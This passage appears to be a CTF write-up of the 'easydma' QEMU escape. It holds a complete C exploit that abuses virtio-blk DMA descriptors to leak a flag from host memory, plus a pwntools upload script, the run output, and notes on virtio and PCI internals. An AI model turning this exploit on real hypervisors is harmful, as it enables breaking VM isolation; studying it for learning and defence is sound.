    readflag_mmio = mmio_init((void *)READFLAG_GVA, 0x1000, "/sys/devices/pci0000:00/0000:00:05.0/resource0");
    printf("[*] readflag_mmio: %p\n", readflag_mmio);

    uint16_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    uint32_t notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    for (size_t i = 0; i < 0x100; i+=4)
        spray();

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    hexdump((uint8_t *)virtio_mmio, 0x100);

    munmap((void *)dma_mem, 0x3000);
    munmap((void *)virtio_mmio, 0x4000);
    munmap((void *)readflag_mmio, 0x1000);

    return 0;
}
```

结果：

```bash
$ ./exp
./exp
[*] virtio_mmio: 0xbabe000
[*] virtio_notify_mmio: 0xbac1000
[*] virtio_common_mmio: 0xbabe000
[*] dma_mem: 0x3ffdd000
[+] virtio-blk init done!
[*] readflag_mmio: 0xcafe000
qemu-system-x86_64: wrong value for queue_enable 43414445
TED*????{**R????????j???????????TED**}?F{**REDACTED**}?F???????????????????????????????????????????????????????t
~ # $
```


# 完整Exp

## easydma.exp.h

```c
/* Common configuration */
#define VIRTIO_PCI_CAP_COMMON_CFG    1
/* Notifications */
#define VIRTIO_PCI_CAP_NOTIFY_CFG    2
/* ISR access */
#define VIRTIO_PCI_CAP_ISR_CFG        3
/* Device specific configuration */
#define VIRTIO_PCI_CAP_DEVICE_CFG    4
/* PCI configuration access */
#define VIRTIO_PCI_CAP_PCI_CFG        5
/* Additional shared memory capability */
#define VIRTIO_PCI_CAP_SHARED_MEMORY_CFG 8

/* This is the PCI capability header: */
struct virtio_pci_cap {
    uint8_t cap_vndr;   /* Generic PCI field: PCI_CAP_ID_VNDR */
    uint8_t cap_next;   /* Generic PCI field: next ptr. */
    uint8_t cap_len;    /* Generic PCI field: capability length */
    uint8_t cfg_type;   /* Identifies the structure. */
    uint8_t bar;        /* Where to find it. */
    uint8_t id;         /* Multiple capabilities of the same type */
    uint8_t padding[2]; /* Pad to full dword. */
    uint32_t offset;    /* Offset within bar. */
    uint32_t length;    /* Length of the structure, in bytes. */
};

struct virtio_pci_notify_cap {
    struct virtio_pci_cap cap;
    uint32_t notify_off_multiplier; /* Multiplier for queue_notify_off. */
};

/* Fields in VIRTIO_PCI_CAP_COMMON_CFG: */
struct virtio_pci_common_cfg {
    /* About the whole device. */
    uint32_t device_feature_select; /* read-write */
    uint32_t device_feature;        /* read-only */
    uint32_t guest_feature_select;  /* read-write */
    uint32_t guest_feature;         /* read-write */
    uint16_t msix_config;           /* read-write */
    uint16_t num_queues;            /* read-only */
    uint8_t device_status;          /* read-write */
    uint8_t config_generation;      /* read-only */

    /* About a specific virtqueue. */
    uint16_t queue_select;          /* read-write */
    uint16_t queue_size;            /* read-write, power of 2. */
    uint16_t queue_msix_vector;     /* read-write */
    uint16_t queue_enable;          /* read-write */
    uint16_t queue_notify_off;      /* read-only */
    uint32_t queue_desc_lo;         /* read-write */
    uint32_t queue_desc_hi;         /* read-write */
    uint32_t queue_avail_lo;        /* read-write */
    uint32_t queue_avail_hi;        /* read-write */
    uint32_t queue_used_lo;         /* read-write */
    uint32_t queue_used_hi;         /* read-write */
};

/* Status byte for guest to report progress, and synchronize features. */
/* We have seen device and processed generic fields (VIRTIO_CONFIG_F_VIRTIO) */
#define VIRTIO_CONFIG_S_ACKNOWLEDGE 1
/* We have found a driver for the device. */
#define VIRTIO_CONFIG_S_DRIVER      2
/* Driver has used its parts of the config, and is happy */
#define VIRTIO_CONFIG_S_DRIVER_OK   4
/* Driver has finished configuring features */
#define VIRTIO_CONFIG_S_FEATURES_OK 8
/* Device entered invalid state, driver must reset it */
#define VIRTIO_CONFIG_S_NEEDS_RESET 0x40
/* We've given up on this device. */
#define VIRTIO_CONFIG_S_FAILED      0x80

#define VIRTIO_QUEUE_SIZE           0x10

/* This marks a buffer as continuing via the next field. */
#define VRING_DESC_F_NEXT       1
/* This marks a buffer as write-only (otherwise read-only). */
#define VRING_DESC_F_WRITE      2
/* This means the buffer contains a list of buffer descriptors. */
#define VRING_DESC_F_INDIRECT   4

struct vring_desc {
    uint64_t addr;
    uint32_t len;
    uint16_t flags;
    uint16_t next;
};

/* The Guest uses this in avail->flags to advise the Host: don't interrupt me
 * when you consume a buffer.  It's unreliable, so it's simply an
 * optimization.  */
#define VRING_AVAIL_F_NO_INTERRUPT  1

struct vring_avail {
    uint16_t flags;
    uint16_t idx;
    uint16_t ring[];
};

/* uint32_t is used here for ids for padding reasons. */
typedef struct vring_used_elem {
    /* Index of start of used descriptor chain. */
    uint32_t id;
    /* Total length of the descriptor chain which was used (written to) */
    uint32_t len;
} vring_used_elem_t;

/* The Host uses this in used->flags to advise the Guest: don't kick me when
 * you add a buffer.  It's unreliable, so it's simply an optimization.  Guest
 * will still kick if it's out of buffers. */
#define VRING_USED_F_NO_NOTIFY  1

struct vring_used {
    uint16_t flags;
    uint16_t idx;
    vring_used_elem_t ring[];
};

/* These two define direction. */
#define VIRTIO_BLK_T_IN     0
#define VIRTIO_BLK_T_OUT    1

typedef struct QVirtioBlkReq {
    uint32_t type;
    uint32_t ioprio;
    uint64_t sector;
    char *data;
    uint8_t status;
} QVirtioBlkReq;
```

## easydma_qemu.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>s
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

#define PAGE_SHIFT      12
#define PAGE_SIZE       (1 << PAGE_SHIFT)
#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)

uint32_t page_offset(uint32_t addr) {
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | page_offset((uint64_t)addr);
}

#define READFLAG_GVA    0xcafe000
#define VIRTIO_BLK_GVA  0xbabe000
#define VIRTIO_BLK_GPA  0xfe000000
#define DMA_GVA         0x3ffdd000
#define DMA_GPA         0x3ffdd000

volatile uint8_t *readflag_mmio = NULL;
volatile uint8_t *virtio_mmio = NULL,
                 *virtio_common_mmio = NULL,
                 *virtio_notify_mmio = NULL;
                 //*virtio_isr_mmio = NULL;
volatile struct virtio_pci_common_cfg *common_cfg = NULL;
volatile struct virtio_pci_notify_cap *notify_cap = NULL;

volatile uint8_t *dma_mem = NULL;
volatile uint8_t *dma_data = NULL;

volatile struct vring_desc *queue_desc = NULL;
volatile struct vring_avail *queue_avail = NULL;
volatile struct vring_used *queue_used = NULL;

#define mmio_write64(addr, val)     (*(uint64_t *)addr=val)
#define mmio_write32(addr, val)     (*(uint32_t *)addr=val)
#define mmio_write16(addr, val)     (*(uint16_t *)addr=val)
#define mmio_write8(addr, val)      (*(uint8_t *)addr=val)
#define mmio_read64(addr)           (*(uint64_t *)addr)
#define mmio_read32(addr)           (*(uint32_t *)addr)
#define mmio_read16(addr)           (*(uint16_t *)addr)
#define mmio_read8(addr)            (*(uint8_t *)addr)

void *mmio_init(void *fixed, size_t size, const char *file) {
    void *mem = NULL;

    int mmio_fd = open(file, O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    mem = mmap(fixed, size, PROT_READ|PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mem == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(mem, size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }

    close(mmio_fd);
    return mem;
}

#include "easydma.exp.h"

void print_cap(struct virtio_pci_cap* cap){
    printf("cap_len: %x\n", cap->cap_len);
    switch(cap->cfg_type){
        case VIRTIO_PCI_CAP_COMMON_CFG:
            printf("cfg_type: common\n");
            break;
        case VIRTIO_PCI_CAP_NOTIFY_CFG:
            printf("cfg_type: notify\n");
            break;
        case VIRTIO_PCI_CAP_ISR_CFG:
            printf("cfg_type: isr\n");
            break;
        case VIRTIO_PCI_CAP_DEVICE_CFG:
            printf("cfg_type: device\n");
            break;
        case VIRTIO_PCI_CAP_PCI_CFG:
            printf("cfg_type: pci\n");
            break;
        default:
            printf("cfg_type: unknown %d\n", cap->cfg_type);
            break;
    }
    printf("[*] bar: %x\n", cap->bar);
    printf("[*] id: %x\n", cap->id);
    printf("[*] offset: %x\n", cap->offset);
    printf("[*] length: %x\n", cap->length);
}

void init_virtio() {
    virtio_mmio = mmio_init((void *)VIRTIO_BLK_GVA, 0x4000, "/sys/devices/pci0000:00/0000:00:04.0/resource4");
    printf("[*] virtio_mmio: %p\n", virtio_mmio);

    struct virtio_pci_cap *cap = NULL;
    uint8_t *config = malloc(0x1000);
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/config", O_RDONLY);
    if(fd < 0){
        perror("[-] failed to open virtio-blk config.");
    }
    int bytes_read = read(fd, config, 0x1000);
    if(bytes_read <= 0){
        perror("[-] failed to read virtio-blk config.");
    }
    close(fd);

    uint8_t cap_ptr = config[0x34];
    while(cap_ptr != 0){
        if(config[cap_ptr] != 0x9) { // vndr
            cap_ptr = config[cap_ptr+1]; // next
            continue;
        }
        cap = (struct virtio_pci_cap *)&config[cap_ptr];
        //print_cap(cap);
        switch(cap->cfg_type){
            case VIRTIO_PCI_CAP_COMMON_CFG:
                virtio_common_mmio = virtio_mmio + cap->offset;
                common_cfg = (struct virtio_pci_common_cfg *)virtio_common_mmio;
                printf("[*] virtio_common_mmio: %p\n", virtio_common_mmio);
                break;
            case VIRTIO_PCI_CAP_NOTIFY_CFG:
                virtio_notify_mmio = virtio_mmio + cap->offset;
                notify_cap = (struct virtio_pci_notify_cap *)virtio_notify_mmio;
                printf("[*] virtio_notify_mmio: %p\n", virtio_notify_mmio);
                break;
            default:
                break;
        }
        cap_ptr = cap->cap_next;
    }
    free(config);
    config = NULL;

    /* reset device */
    uint8_t device_status = 0;

    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    mmio_write32(&common_cfg->guest_feature_select, 0);
    mmio_write32(&common_cfg->guest_feature, 0); // disable all features
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // alloc dma memory
    int mem_fd = open("/dev/mem", O_RDWR | O_SYNC);
    if (mem_fd < 0) {
        perror("[-] failed to open /dev/mem.");
    }
    dma_mem = mmap((void*)DMA_GVA, 0x3000, PROT_READ|PROT_WRITE, MAP_SHARED, mem_fd, DMA_GPA);
    if (dma_mem == (volatile uint8_t *)-1) {
        perror("[-] failed to mmap dma mem.");
    }
    printf("[*] dma_mem: %p\n", dma_mem);
    dma_data = dma_mem + 0x1000;

    // 6. init queue
    queue_desc = (struct vring_desc *)dma_mem;
    queue_avail = (struct vring_avail *)((uint8_t *)queue_desc + VIRTIO_QUEUE_SIZE*sizeof(struct vring_desc));
    queue_used = (struct vring_used *)((uint8_t *)queue_avail + sizeof(uint16_t)*(3 + VIRTIO_QUEUE_SIZE));

    mmio_write16(&common_cfg->queue_select, 0);
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc_lo, DMA_GPA);
    mmio_write32(&common_cfg->queue_avail_lo, DMA_GPA + 0x100);
    mmio_write32(&common_cfg->queue_used_lo, DMA_GPA + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    printf("[+] virtio-blk init done!\n");
}

#define mfence() {__asm__ volatile("mfence":::"memory");}
void init_vring() {
    QVirtioBlkReq *req = (QVirtioBlkReq *)dma_data;
    req->type = 0xff; // invalid type
    req->ioprio = 1;
    req->sector = 0;

    queue_desc[0].addr = (uint64_t)req;
    queue_desc[0].len = 0x10;
    queue_desc[0].flags = VRING_DESC_F_NEXT;
    queue_desc[0].next = 1;

    queue_desc[1].addr = VIRTIO_BLK_GPA;
    queue_desc[1].len = 0xfff;
    queue_desc[1].flags = VRING_DESC_F_NEXT|VRING_DESC_F_WRITE;
    queue_desc[1].next = 2;

    queue_desc[2].addr = (uint64_t)dma_data + 0x1000;
    queue_desc[2].len = 1;
    queue_desc[2].flags = VRING_DESC_F_WRITE;
    queue_desc[2].next = 0;

    queue_avail->ring[0] = 0;
    queue_avail->idx = 1;
    queue_avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    mfence();
}

void spray() {
    for (size_t i = 0xffc; i > 0x20; i-=4)
        mmio_write32(readflag_mmio, i);
}

void hexdump(void *addr, size_t size){
    // dump 4 bytes per time
    for (size_t i = 0; i < size; i+=4) {
        uint32_t val = *(volatile uint32_t*)(addr+i);
        for (int j = 0; j < 4; j++) {
            uint8_t chr = (val >> (j*8)) & 0xff;
            if (chr >= 0x20 && chr <= 0x7e) {
                putchar(chr);
            } else {
                putchar('?');
            }
        }
    }
}

int main() {
    init_virtio();
    init_vring();

    readflag_mmio = mmio_init((void *)READFLAG_GVA, 0x1000, "/sys/devices/pci0000:00/0000:00:05.0/resource0");
    printf("[*] readflag_mmio: %p\n", readflag_mmio);

    uint16_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    uint32_t notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    for (size_t i = 0; i < 0x100; i+=4)
        spray();

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    hexdump((uint8_t *)virtio_mmio, 0x100);

    munmap((void *)dma_mem, 0x3000);
    munmap((void *)virtio_mmio, 0x4000);
    munmap((void *)readflag_mmio, 0x1000);

    return 0;
}
```

## easydma.qemu.py

```python
from pwn import *
import base64
import os

aslr = True
context.log_level = "info"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def send_file(src, dst):
    pl = base64.b64encode(open(src, "rb").read())
    sla(b"#", b"cat<<EOF|base64 -d>"+dst)
    for i in range(0, len(pl), 0x100):
        sla(b">", pl[i:i+0x100])
    sla(b">", b"EOF")

def conn(local=1):
    global p
    if local == 1:
        os.system("cd rootfs && find . | cpio -o --format=newc > ../rootfs.cpio && cd --")
        pc = './run.sh'
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        p = process(pc,aslr=aslr)
        sla(b"~ #", b"chmod +x /exp; /exp")
    else:
        remote_addr = ['1.95.46.90', 9999]
        p = remote(remote_addr[0], remote_addr[1])
        send_file("./exp", b"/exp")
        sla(b"~ #", b"chmod +x /exp; /exp")

if __name__ == "__main__":
    os.system("gcc -g --debug -static -o rootfs/exp ./easydma_qemu.exp.c")
    #os.system("gcc -O3 -static -o rootfs/exp ./exp.c")
    conn()

    p.interactive()
```

# 补充知识

## virtio device & virtqueue(vring)

参考：

* [Virtio devices and drivers overview: The headjack and the phone](https://www.redhat.com/en/blog/virtio-devices-and-drivers-overview-headjack-and-phone)
* [Virtqueues and virtio ring: How the data travels](https://www.redhat.com/en/blog/virtqueues-and-virtio-ring-how-data-travels?source=searchresultlisting)
* [Packed virtqueue: How to reduce overhead with virtio](https://www.redhat.com/en/blog/packed-virtqueue-how-reduce-overhead-virtio)
* [virtio1.1 spec](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-90002)

### virtio device

virtio 设备是一种向软件公开virtio接口以管理和交换信息的设备，它可以通过PCI、mmio和S/390 Channel I/O（用于大型机系统）等将接口暴露给模拟环境。其主要任务是将信号从虚拟环境（虚拟机、容器等）外部的格式转换为需要通过virtio数据平面进行交换的格式，反之亦然。这些信号可以是真实的（例如来自网卡的电或光），也可以是虚拟的（例如主机从网络数据包中获得的表示）。

virtio 接口由以下必需部分组成 ([virtio1.1 spec](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-90002))：

* **Device status field**：设备状态字段是设备和驱动程序用于执行初始化的一系列位。

  > 客户机或驱动程序设置设备状态字段中的 ACKNOWLEDGE 位 (0x1) 以指示其已确认设备，并设置 DRIVER 位 (0x2) 以指示正在进行初始化。之后，它使用功能位启动功能协商，并设置 DRIVER_OK 位 (0x4) 和 FEATURES_OK 位 (0x8) 以确认功能，从而可以开始通信。如果设备想要指示致命故障，它可以设置 DEVICE_NEEDS_RESET 位 (0x40)，驱动程序也可以设置 FAILED 位 (0x80)。
  >
  > 设备需通过PCI scanning或MMIO设置这些位的值。

* **Feature bits**：设备的功能位用于传达其支持的功能，并与驱动程序就其中哪些功能进行协商。这些功能位可以是设备通用的，也可以是设备特定的。

  > 在设置ACKNOWLEDGE和DRIVER位完成设备初始化之后，驱动程序会读取设备提供的功能位，并返回其可以处理的子集。如果两者达成一致，驱动程序将分配并通知设备虚拟队列以及所有其他所需的配置。

* **Notifications**：设备和驱动程序必须使用通知来告知它们有信息需要通信。

  > 虽然这些通知的语义在标准中已指定，但具体实现与传输方式有关，例如通过PCI中断或mmio等。

* **One or more virtqueues**：virtqueue是一个客户机缓冲区队列，主机使用缓冲区进行读写操作，然后返回给客户机。virtqueue采用环形队列的数据结构实现，因此通常被称为virtring或vring。


### Split virtqueue

参考：[Split Virtqueues](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-240006)

virtqueue被分割为3个区域，分别由3个队列占用，都可以由驱动或设备进行写入（但不能同时被设备和驱动写入）：

* **Descriptor Table** (Descriptor Area): 描述dma缓冲区。
* **Avail Ring** (Driver Area): 驱动程序提供给设备的数据。
* **Used Ring** (Device Area): 设备提供给驱动程序的数据。

这些队列的内存由驱动程序进行分配以便能够直接访问，故存储的缓冲区地址为驱动的视角，设备使用队列中的地址时需要进行地址转换。

占用大小及最小对齐要求：

| Virtqueue Part   | Alignment | Size               |
| ---------------- | --------- | ------------------ |
| Descriptor Table | 16        | 16∗(Queue Size)    |
| Available Ring   | 2         | 6 + 2∗(Queue Size) |
| Used Ring        | 4         | 6 + 8∗(Queue Size) |

其中`(Queue Size)`对应了队列长度，始终为2的幂次，最大为0x8000。

当驱动程序想要向设备发送缓冲区时，它会填充Descriptor Table中的一个槽位（或将多个槽位链接在一起），并将描述符索引写入Available Ring。然后，它会通知设备。当设备完成对一个缓冲区的处理后，它会将描述符索引写入Used Ring，并发送已使用缓冲区通知。

#### Descriptor Table: Where is my data?

desc ring包含一系列描述符，描述客户机缓冲区地址、长度、标志等：

```c
struct virtq_desc { 
        /* Address (guest-physical). */ 
        le64 addr; 
        /* Length. */ 
        le32 len; 
 
/* This marks a buffer as continuing via the next field. */ 
#define VIRTQ_DESC_F_NEXT   1 
/* This marks a buffer as device write-only (otherwise device read-only). */ 
#define VIRTQ_DESC_F_WRITE     2 
/* This means the buffer contains a list of buffer descriptors. */ 
#define VIRTQ_DESC_F_INDIRECT   4 
        /* The flags as indicated above. */ 
        le16 flags; 
        /* Next field if flags & NEXT */ 
        le16 next; 
};
```

* addr：dma地址

* len：dma长度

* flags：标识缓冲区属性

  * 0：read-only

  * 1：标识该缓冲区未结束，由next字段标识的desc序号继续

  * 2：标识该缓冲区为设备write-only

  * 4：标识该缓冲区包含了一个缓冲区列表

    ```c
    struct indirect_descriptor_table { 
            /* The actual descriptors (16 bytes each) */ 
            struct virtq_desc desc[len / 16]; 
    };
    ```

* next：当`flags|=1`时，标识描述符链中的下一个描述符的序号

> [!warning]
>
> 每个描述符链中的所有描述符，要么全部read-only，要么全部write-only，不能在同一个链中同时存在两种属性的描述符。

> [!note]
>
> 间接描述符（Indirect descriptors）是一种特殊类型的描述符，作用是增加vring的容量。
>
> 驱动会在内存中任意位置申请一个间接描述符表（布局与普通描述符表相同），并将一个设置了VIRTQ_DESC_F_INDIRECT (0x4)标志的描述符插入普通描述符表，地址大小字段填入该间接描述符表的地址和大小。

#### Avail Ring: Supplying data to the device

驱动程序将设备可以被使用的描述符（索引）放置在avail ring。

```c
struct virtq_avail { 
#define VIRTQ_AVAIL_F_NO_INTERRUPT      1 
        le16 flags; 
        le16 idx; 
        le16 ring[ /* Queue Size */ ]; 
        le16 used_event; /* Only if VIRTIO_F_EVENT_IDX */ 
};
```

* idx：`ring[]`中最后一个可用条目的下一个位置
* flags：最低有效位指示驱动程序是否希望收到通知（VIRTQ_AVAIL_F_NO_INTERRUPT）
* ring：和desc ring长度相同的数组，只标识每个desc chain的开头描述符的id

#### Used Ring: When the device is done with the data

设备使用used ring将已使用的（读取或写入）缓冲区返回给驱动程序。

```c
struct virtq_used { 
#define VIRTQ_USED_F_NO_NOTIFY  1 
        le16 flags; 
        le16 idx; 
        struct virtq_used_elem ring[ /* Queue Size */]; 
        le16 avail_event; /* Only if VIRTIO_F_EVENT_IDX */ 
}; 
 
/* le32 is used here for ids for padding reasons. */ 
struct virtq_used_elem { 
        /* Index of start of used descriptor chain. */ 
        le32 id; 
        /* Total length of the descriptor chain which was used (written to) */ 
        le32 len; 
};
```

* idx：`ring[]`中最后一个已用条目的下一个位置（模队列长度）
* flags：最低有效位指示驱动程序是否希望收到通知（VIRTQ_USED_F_NO_NOTIFY）
* ring：和desc ring长度相同的数组，标识每个desc chain的开头描述符的id和已写入的总长度len


#### Data travels

详细过程见[virtio1.1 spec](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-90002)，这里只放一个大概过程：

1. 驱动将缓冲区放入desc table中，并根据需要将其串联为desc chain

2. 驱动将desc/desc chain中第一个desc的索引放入avail ring的`ring[]`中

   ```c
   avail->ring[(avail->idx + added++) % qsz] = head;
   // added为计数器，记录ring[]中增加的可用条目的数量
   ```

3. 重复步骤1、2

4. 驱动程序设置内存屏障，确保进行到下一步之前desc ring和avail ring的更新对设备可见

5. 驱动将avail ring的`idx`指向`ring[]`中最后一个可用条目的下一个位置

   ```c
   avail->idx += added;
   ```

6. 驱动程序设置内存屏障，确保进行到下一步之前avail ring的idx的更新对设备可见

7. 驱动向设备发送available buffer notification（如果该类消息没有被抑制）

8. 设备取用desc

9. 设备向驱动发送used buffer notifications（如果该类消息没有被抑制）

图示如下：

驱动往desc table写入buffer：


驱动更新avail ring：


desc chain的情形：


设备取用并处理完avail ring中的desc后，更新used ring：


### Packed Virtqueues

Packed virtqueues是一种可选的采用read-write的紧凑型虚拟队列，主机和客户机均可读写其内存，最多支持2^15^个条目。

此处不作展开，详情参考[Packed Virtqueues](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-610007)。


## virtio的legacy和modern模式

> Legacy Interface is an interface specified by an earlier draft of this specification (before 1.0)

早期的开发者Rusty Russell设计并实现了virtio，之后成为了virtio规范, 经历了0.95, 1.0, 1.1，到现在的1.2版本的演进。0.95之前称为传统virtio设备，1.0修改了一些PCI配置空间访问方式和virtqueue的优化和特定设备的约定。简单来说就是在virtio1.0规范出来前，virtio已经广泛应用了（主要是virtio0.95），虽然这些早期版本设计上不够合理，但是也已经广泛部署，所以后续virtio都需要兼容这些早期版本。而**Legacy指的就是virtio1.0之前的版本（驱动，设备及接口），而morden就是只virtio1.0及之后的版本**。

如果后端设备既支持morden的接口，又兼容lagecy的接口，那前端驱动将通过`VIRTIO_F_VERSION_1`这个feature判断，如果后端不支持这个feature，前端就只能按照lagecy接口进行交互。

早期的lagecy版本和后来的morden最主要的不同就是PCIe设备空间的layout不同：

1. **device id**（0x16，2bytes）：
   **通常情况下，0x1000\~0x1040表示是legacy设备, 0x1040- 0x107f表示是modern设备**，例如网卡（virtio-net）可以是0x1000（legacy）也可以是0x1041（morden），在legacy的device id基础上加0x40即是modern的device id。
   **但有时为了向前兼容，实现了morden接口的设备也会使用legacy的device id**，驱动的判断并不是简单地以device id为准。
2. **capabilities pointer**（0x34，1byte）：
   * legacy设备的关键属性直接放在其第一个BAR空间，没有专门的Capability，所以其capabilities pointer字段（0x34）指向的是仅有的**通用的MSI-X Capability**，而不是virtio的Capability。
   * modern设备capabilities pointer字段（0x34）指向的是**virtio的Capability**。


## QEMUBH

参考：[深入理解qemu事件循环 ——下半部（bottom half）](https://blog.csdn.net/huang987246510/article/details/100110183)


## ioeventfd

参考：[qemu中的eventfd——ioeventfd](https://blog.csdn.net/huang987246510/article/details/105618557)


## PCI设备目录

在Linux系统中，`/sys`目录是一个虚拟文件系统，用于提供内核信息和控制设备的接口。对于类似 `/sys/devices/pci0000:00/0000:00:04.0` 这样的PCI设备文件夹，它代表了一个特定的PCI设备，里面包含了与该设备相关的各种信息和控制文件。

```bash
~ # ls /sys/devices/pci0000:00/0000:00:04.0
ari_enabled               irq                       resource
broken_parity_status      link                      resource0
class                     local_cpulist             resource1
config                    local_cpus                resource4
consistent_dma_mask_bits  modalias                  resource4_wc
d3cold_allowed            msi_bus                   revision
device                    msi_irqs                  subsystem
dma_mask_bits             numa_node                 subsystem_device
driver                    power                     subsystem_vendor
driver_override           power_state               uevent
enable                    remove                    vendor
firmware_node             rescan                    virtio0

```

以`virtio-blk`设备为例，以下是可能会在 `/sys/devices/pci0000:00/0000:00:04.0` 下看到的一些常见文件和目录，以及它们的功能：

1. `class`
   * 内容：表示设备的类别，如“网络设备”、“存储设备”等。
   * 功能：此文件包含了设备的分类信息，帮助识别设备属于哪个硬件类别。

2. `driver`

   * 内容：指向该设备当前驱动程序的符号链接。
   * 功能：当设备驱动被加载时，`driver`文件会链接到驱动程序所在的目录。可以通过这个文件查看当前该设备所使用的驱动。

   ```bash
   lrwxrwxrwx    1 0        0              0 May 13 02:39 driver -> ../../../bus/pci/drivers/virtio-pci
   ```

3. `enable`

   * 内容：一个文件，可以写入数据来启用或禁用设备。
   * 功能：通过写入值 `1` 来启用设备，写入 `0` 来禁用设备。

4. `irq`

   * 内容：表示设备所使用的中断请求线（IRQ）的信息。
   * 功能：该文件包含了设备的中断信息，通常是一个数字，表示该设备使用的IRQ线。

5. **`resource`**

   * 内容：列出**设备占用的硬件资源（如内存地址、I/O端口等）。**
   * 功能：此文件包含了设备分配的物理资源的详细信息，通常用于诊断和排错。

6. `subsystem`

   * 内容：指向该设备所对应的子系统的路径。

   * 功能：该文件提供了设备所属的子系统的链接，例如网络设备、存储设备等。

     ```bash
     lrwxrwxrwx    1 0        0              0 May 13 02:39 subsystem -> ../../../bus/pci
     ```

7. `vendor` 和 `device`

   * 内容：这些文件分别存储设备的供应商ID和设备ID。
   * 功能：这些文件帮助识别设备的厂商和具体型号，通常是16进制数值。

8. **`config`**

   * 内容：表示**PCI设备的配置空间信息**。
   * 功能：这个文件提供了设备的PCI配置空间的内容。可以通过读取它来查看设备的各种配置信息，如设备ID、厂商ID、内存映射等。

根据具体的设备类型和配置，可能还会有其他的文件和目录。例如，网络设备可能会有类似于 `net/` 目录来提供网络接口的控制，而存储设备可能有用于控制磁盘的接口。


## PCI/PCIe配置空间

参考：[从virtio看PCIe设备实现](http://blog.chinaunix.net/uid-28541347-id-5875921.html)

PCI或PCIe设备有自己独立的地址空间。地址空间又可以分为两类：

1. 一类是**配置空间**（configuration space），这是每个PCI设备必须具备的，用来描述PCI设备的一些关键属性；
2. 另一类是PCI设备内部的一些**存储空间**，这类空间根据不同PCI设备的实现不同而不同，由于这类空间是通过配置空间的BAR（Base Address Registers）寄存器进行地址映射，所以也称作**BAR空间**。

配置空间具体又可以分为三个部分：

1. 基本配置空间（0x00\~0x3F bytes）：前64个字节是所有PCI设备必须支持的，而其中前16字节对所有类型的pci设备格式都相同，之后的空间格式因类型而不同，对前16字节空间我称它为通用配置空间；
2. 扩展配置空间（0x40\~0xFF bytes）：此外PCI/PCI-X还扩展了64-266 bytes这段配置空间，在这段空间主要存放一些与MSI或者MSI-X中断机制和电源管理相关的**Capability结构**；
3. PCIe扩展配置空间（0x100\~0xFFF bytes）：PCIe规范在PCI规范的基础上，将配置空间扩展到4KB，也就是256-4k这段配置空间是PCIe设备所特有的。

### 基本配置空间（0x00\~0x3F bytes）


基本配置空间是指PCI设备必须支持的前64字节配置空间，其中通用配置空间是指PCI配置空间的前16字节，以virtio设备为例，其通用配置空间如下：

 

具体virtio-blk配置空间的内容可以通过lspci命令查看到，如下

> [!note]
>
> busybox中的`lspci`版本极低，可能不支持`-xxx`和`-s`选项。

 

前16字节中有4个地方用来识别virtio设备：

